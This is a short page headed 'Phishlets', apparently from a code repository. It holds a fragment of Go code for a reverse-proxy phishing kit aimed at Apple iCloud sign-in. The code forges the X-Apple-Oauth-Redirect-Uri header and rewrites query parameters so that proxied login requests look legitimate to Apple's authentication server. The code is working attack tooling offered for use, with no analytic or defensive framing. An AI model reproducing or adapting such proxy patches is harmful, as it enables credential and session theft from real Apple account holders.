 # Phishlets

				//Replace User Agent Header
				useragent := req.Header.Get("X-Apple-Oauth-Redirect-Uri")
				if useragent != "" {
					req.Header.Set("X-Apple-Oauth-Redirect-Uri", "https://www.icloud.com")
					log.Debug("[%d] X-Apple-Oauth-Redirect-Uri: https://www.icloud.com", ps.Index)

				} 	
        
        
        
        
				// patch GET query params with original domains
				if pl != nil {
					qs := req.URL.Query()
					if len(qs) > 0 {
						for gp := range qs {
							for i, v := range qs[gp] {
								qs[gp][i] = string(p.patchUrls(pl, []byte(v), CONVERT_TO_ORIGINAL_URLS))
							if qs[gp][i] == "/appleauthhttps://idmsa.test.com/auth" { // https://idmsa.apple.com/appleauthhttps://idmsa.test.com/auth
								qs[gp][i] = "/appleauth/auth" // https://idmsa.test.com/appleauth/auth
							}
							}
						}
						req.URL.RawQuery = qs.Encode()
					}
				} 	        
